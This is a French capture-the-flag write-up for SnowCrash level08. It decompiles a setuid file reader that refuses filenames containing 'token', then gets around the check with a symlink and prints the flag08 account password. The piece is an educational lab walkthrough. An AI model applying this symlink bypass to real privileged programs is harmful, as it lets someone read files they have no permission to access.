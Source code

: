 # Level 08

On a un exécutable et un fichier `token`. Le fichier appartient à flag08.
Quand on lance l'exécutable, on voit qu'il prend un argument (file to read). On essaye donc de lancer l'exécutable avec `token` en tant qu'argument:

```sh
level08@SnowCrash:~$ ./level08  token 
You may not access 'token'
```

On voit qu'on n'a pas accès au fichier token.

On en déduit donc qu'il faut exploiter l'exécutable pour lire token, quand on décompile l'exécutable avec ghidra, on voit dans le main:

```c
if (argc == 1)
    {
        printf("%s [file to read]\n", *argv);
        exit(1);
        /* no return */
    }
    if (strstr(argv[1], "token") != 0)
    {
        printf("You may not access '%s'\n", argv[1]);
        exit(1);
        /* no return */
    }
    int32_t fd = open(argv[1], 0);
    if (fd == 0xffffffff)
    {
        err(1, "Unable to open %s", argv[1]);
        /* no return */
    }
    void buf;
    ssize_t nbytes = read(fd, &buf, 0x400);
    if (nbytes == 0xffffffff)
    {
        err(1, "Unable to read fd %d", fd);
        /* no return */
    }
    ssize_t eax_20 = write(1, &buf, nbytes);
```

La partie qui nous intéresse le plus c'est celle ci:

```c
    if (strstr(argv[1], "token") != 0)
    {
        printf("You may not access '%s'\n", argv[1]);
        exit(1);
        /* no return */
    }
``` 

On comprend que le fait de ne pas pouvoir accéder à `token` est en fait hardcodé dans l'exécutable en utilisant `strstr`

On doit donc trouver un moyen de changer le nom du fichier token, on a commencé par essayer avec `cp` et `mv`:

```sh
level08@SnowCrash:~$ cp token test
cp: cannot open `token' for reading: Permission denied
level08@SnowCrash:~$ mv token test
mv: cannot move `token' to `test': Permission denied
level08@SnowCrash:~$ mv token /tmp/test
mv: cannot open `token' for reading: Permission denied
```
mais étant donné que `token` appartient à flag08, on n'y a pas accès en lecture ni en écriture donc on ne peut pas le copier ou le déplacer

Dans ce cas la seule option qu'il nous reste c'est de faire un lien symbolique:

```sh
level08@SnowCrash:~$ ln -s ~/token /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
quif5eloekouj29ke0vouxean
```

On obtient donc le mot de passe du compte flag08 et on peut s'y connecter et lancer getflag